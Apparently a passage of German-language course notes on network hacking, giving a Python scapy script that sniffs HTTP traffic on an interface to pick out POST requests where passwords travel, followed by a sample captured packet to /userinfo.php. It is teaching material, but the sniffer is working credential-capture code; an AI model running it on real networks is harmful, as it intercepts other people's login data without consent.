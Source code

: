 Anmerkung zum Video: `scapy-http` muss nicht mehr extra installiert werden sondern ist im Standard Funktionsumfang enthalten.



## Extracting fields

Passwörter werden als POST im Raw Teil des Packets übertragen.

```python
import scapy.all as scapy
from scapy.layers import http

def sniff(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def process_sniffed_packet(packet):
    if packet.haslayer(http.HTTPRequest) and packet.haslayer(scapy.Raw):
        packet.show()
        print()

print("Network Sniffer")
sniff("eth0")

```



```
###[ Ethernet ]### 
  dst       = e0:28:6d:7b:fa:91
  src       = 00:0c:29:97:77:0a
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 565
     id        = 56213
     flags     = DF
     frag      = 0
     ttl       = 64
     proto     = tcp
     chksum    = 0x2b55
     src       = 192.168.178.81
     dst       = 18.192.172.30
     \options   \
###[ TCP ]### 
        sport     = 45542
        dport     = http
        seq       = 3102617925
        ack       = 1418060487
        dataofs   = 8
        reserved  = 0
        flags     = PA
        window    = 501
        chksum    = 0x3400
        urgptr    = 0
        options   = [('NOP', None), ('NOP', None), ('Timestamp', (610003459, 2475676676))]
###[ HTTP 1 ]### 
###[ HTTP Request ]### 
           Method    = 'POST'
           Path      = '/userinfo.php'
           Http_Version= 'HTTP/1.1'
           A_IM      = None
           Accept    = 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8'
           Accept_Charset= None
```